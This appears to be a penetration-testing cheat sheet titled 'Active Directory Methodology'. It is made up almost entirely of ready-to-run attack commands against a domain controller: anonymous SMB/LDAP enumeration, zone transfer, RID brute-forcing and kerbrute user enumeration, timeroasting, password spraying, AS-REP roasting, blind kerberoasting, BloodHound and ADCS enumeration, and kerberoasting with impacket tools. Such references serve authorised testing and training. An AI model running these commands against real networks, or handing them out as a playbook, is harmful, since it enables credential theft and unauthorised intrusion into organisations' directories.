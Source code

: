 ```yaml
---
icon: windows
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Active Directory Methodology

## No credentials

### Enumeration

```sh
nxc smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
ldapsearch -x -H <dc_ip> -s base
```

### Zone transfer

{% code overflow="wrap" %}
```sh
dig axfr <domain> @<dc_ip>
```
{% endcode %}

### Shares

```sh
nxc smb <IP> -u '' -p '' --shares
nxc smb <IP> -u 'guest' -p '' --shares
```

### Enumerate users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> --users
nxc smb <dc_ip> --rid-brute 10000
```
{% endcode %}

```sh
kerbrute userenum -d <domain> <users.txt>
```

### Timeroast

{% code overflow="wrap" %}
```sh
timeroast.py <dc_ip>
```
{% endcode %}

## Valid user (no password)

### Password spray

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success
```
{% endcode %}

### ASREProast <a href="#asreproast" id="asreproast"></a>

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u <users.txt> -p '' --asreproast <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetNPUsers.py <domain>/ -usersfile <users.txt>
```
{% endcode %}

### Blind kerberoast

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -no-preauth '<asrep_user>' -usersfile <users.txt> -dc-host <dc_ip> <domain>/
```
{% endcode %}

## Valid credentials

### List all users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' --users
```
{% endcode %}

### Enumerate SMB shares

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' -M spider_plus
```
{% endcode %}

{% code overflow="wrap" %}
```sh
smbclient.py '<user>:<passwod>@<dc_ip>'
```
{% endcode %}

### BloodHound

{% code overflow="wrap" %}
```sh
bloodhound-ce-python -d '<domain>' -u '<user>' -p '<password>' [-ns '<dc_ip>'] -c All --zip
```
{% endcode %}

### Enumerate LDAP

{% code overflow="wrap" %}
```sh
ldapdomaindump.py -u '<domain>\<user>' -p '<password>' -o <output_folder> '<dc_ip>'
```
{% endcode %}

### Enumerate ADCS

{% code overflow="wrap" %}
```sh
certipy find -u '<user>@<domain>' -p '<password>' -dc-ip '<dc_ip>' -stdout
```
{% endcode %}

### Kerberoast

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u '<user>' -p '<password>' --kerberoasting <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -request -dc-ip <dc_ip> '<domain>/<user>:<password>'
```
{% endcode %}

{% hint style="danger" %}
If you find this error from Linux: `KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC.

{% code overflow="wrap" fullWidth="false" %}
```sh
sudo ntpdate <dc_ip>
```
{% endcode %}
{% endhint %}


